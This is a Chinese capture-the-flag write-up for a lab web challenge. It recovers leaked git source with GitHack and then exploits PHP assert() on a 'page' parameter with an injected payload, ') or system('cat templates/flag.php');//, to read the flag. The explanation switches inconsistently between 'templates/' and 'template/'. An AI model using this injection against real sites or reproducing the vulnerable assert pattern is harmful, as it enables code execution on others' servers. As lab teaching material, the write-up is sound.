




题目描述：
无
题目解题：

进入页面，一个个都点了点，没啥用的，查看url发现有个page参数，想着或许是文件包含，试了试没啥成果，于是想到扫网站，然后用dirsearch扫了一下，发现有git泄露，于是在后面添加/.git/访问看看

发现的确是git泄露，这时下载了这些文件发现都是乱码，不知道咋处理了，看了wp发现要利用工具来还原代码
Githack：工具下载(linux): git clone https://github.com/lijIEjIE/GitHack.git
1
| 命令：python GitHack.py http://61.147.171.105:63789/.git
|

成功下载，查看index.php，找到重要代码
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
| <?php
if (isset($_GET['page'])) {
$page = $_GET['page'];
} else {
$page = "home";
}
$file = "templates/" . $page . ".php";
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
assert("file_exists('$file')") or die("That file doesn't exist!");
?>
|
1
2
3
4
5
| strpos()函数查找".."在$file中第一次出现的位置。如果没有找到则返回false
file_exists()函数检查$file是否存在
assert()函数会将括号中的字符当成代码来执行，并返回true或false
|
因此这里就是利用assert执行代码，那么就要想办法插入命令函数，因此构造如下payload
这里我们也知道flag在./templates/flag.php目录处
1
| ?page=') or system('cat templates/flag.php');//
|
被传入之后变成：
1
| $file="templates/') or system('cat ./templates/flag.php');//.php"
|
strpos()返回false，再利用or让其执行system函数，再用" // "将后面的语句注释掉
1
| assert("strpos('template/') or system('cat ./template/flag.php');//.php, '..') === false")
|
下划线内容被注释掉了，所以真正执行了以下语句
1
| strpos('template/') or system('cat ./template/flag.php');
|

拿到flag
参考文章：
wp参考